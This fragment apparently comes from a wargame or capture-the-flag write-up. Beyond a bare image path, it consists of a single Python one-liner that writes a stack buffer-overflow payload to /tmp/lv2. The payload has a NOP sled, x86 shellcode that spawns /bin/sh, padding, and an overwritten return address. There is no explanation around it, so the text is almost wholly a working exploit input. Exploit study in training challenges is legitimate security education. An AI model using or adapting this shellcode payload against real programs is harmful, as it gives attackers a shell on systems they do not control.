 python -c 'import struct; print "\x90" \* 20 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"+ "A" \* (60 - 44) + struct.pack("<I", 0x0804a008)' > /tmp/lv2
